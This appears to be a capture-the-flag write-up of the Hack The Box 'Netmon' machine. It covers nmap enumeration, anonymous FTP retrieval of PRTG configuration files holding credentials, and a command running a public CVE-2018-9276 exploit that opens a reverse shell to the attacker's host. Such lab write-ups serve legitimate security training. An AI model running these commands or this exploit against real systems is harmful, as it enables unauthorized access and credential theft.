 # About
Netmon is an easy difficulty Windows box with simple enumeration and exploitation. PRTG is running, and an FTP server with anonymous access allows reading of PRTG Network Monitor configuration files. The version of PRTG is vulnerable to RCE which can be exploited to gain a SYSTEM shell. 

## Enumeration
`nmap -A -T4 -p- 10.129.230.176
```
PORT      STATE    SERVICE      VERSION
21/tcp    open     ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
80/tcp    open     http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
135/tcp   open     msrpc        Microsoft Windows RPC
139/tcp   open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1699/tcp  filtered rsvp-encap-2
1887/tcp  filtered filex-lport
4707/tcp  filtered unknown
5985/tcp  open     http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open     http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open     msrpc        Microsoft Windows RPC
49665/tcp open     msrpc        Microsoft Windows RPC
49666/tcp open     msrpc        Microsoft Windows RPC
49667/tcp open     msrpc        Microsoft Windows RPC
49668/tcp open     msrpc        Microsoft Windows RPC
49669/tcp open     msrpc        Microsoft Windows RPC
```
### FTP Anon Login
![](Images/Pasted%20image%2020250416221722.png)
Under the \Windows directory I found 
![](Images/Pasted%20image%2020250416221858.png)
Version confirmation
`PRTG Network Monitor 18.1.37.13946`
C:\ProgramData\Paessler is the default directory for the application.
![](Images/Pasted%20image%2020250416222803.png)
Lets grab the whole directory to read locally.
`wget -r ftp://10.129.230.176/ProgramData/Paessler`

Also Anon FTP allowed us to get the user flag
![](Images/Pasted%20image%2020250416222632.png)
In the directory seems to be an old backup of the configuration I wonder if we can find something
![](Images/Pasted%20image%2020250416223001.png)
Bingo
prtgadmin:PrTg@dmin2018
![](Images/Pasted%20image%2020250416223025.png)
![](Images/Pasted%20image%2020250416223453.png)
Since this is an old configuration, typical users like changing the year when they have to adjust passwords so lets try the next year in line.
`prtgadmin:PrTg@dmin2019`
![](Images/Pasted%20image%2020250416223526.png)
## Exploitation
![](Images/Pasted%20image%2020250416222123.png)
The only promising one looks like it requires authentication so I will probably need to enumerate further
prtgadmin:PrTg@dmin2019
https://github.com/A1vinSmith/CVE-2018-9276

`./exploit.py -i 10.129.230.176 -p 80 --lhost 10.10.14.251 --lport 4444 --user prtgadmin --password PrTg@dmin2019`
![](Images/Pasted%20image%2020250416223859.png)
That was a quick easy root
![](Images/Pasted%20image%2020250416223928.png)
![](Images/Pasted%20image%2020250416223954.png)
